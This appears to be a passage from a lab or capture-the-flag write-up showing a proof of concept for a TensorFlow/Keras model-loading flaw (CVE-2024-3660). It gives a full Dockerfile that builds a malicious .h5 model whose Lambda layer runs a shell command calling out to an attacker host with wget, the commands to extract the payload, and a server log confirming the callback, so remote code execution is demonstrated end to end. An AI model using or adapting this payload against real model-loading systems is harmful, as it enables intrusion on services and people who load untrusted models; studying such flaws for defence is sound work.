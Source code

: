 There is a CVE for `tensorflow-cpu`: [PoC](https://github.com/aaryanbhujang/CVE-2024-3660-PoC). The following PoC Dockerfile can be used to gain RCE:
```bash
# Force platform so wheel architecture matches TensorFlow wheel
FROM --platform=linux/amd64 python:3.8-slim

WORKDIR /CVE20243660

# Install curl, wget, and TensorFlow CPU wheel
RUN apt-get update && \
    apt-get install -y curl wget && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

# Create malicious model during build
RUN python3 - <<EOF
import tensorflow as tf


def arbexe(x):
    import os
    os.system(f"wget http://10.10.14.163/test")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(arbexe))
model.compile()
model.save("CVE20243660.h5")
EOF

ENTRYPOINT ["/bin/bash"]
```

Generate payload:
```bash
docker buildx build \
  --platform linux/amd64 \
  -t tfimg . && \
container_id=$(docker create tfimg) && \
docker cp $container_id:/CVE20243660/CVE20243660.h5 ./CVE20243660.h5 && \
docker rm $container_id
```

Upload the file to trigger RCE:
```bash
python3 -m http.server 80          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.17.0.2 - - [29/Aug/2025 13:11:05] code 404, message File not found
172.17.0.2 - - [29/Aug/2025 13:11:05] "GET /test HTTP/1.1" 404 -
```
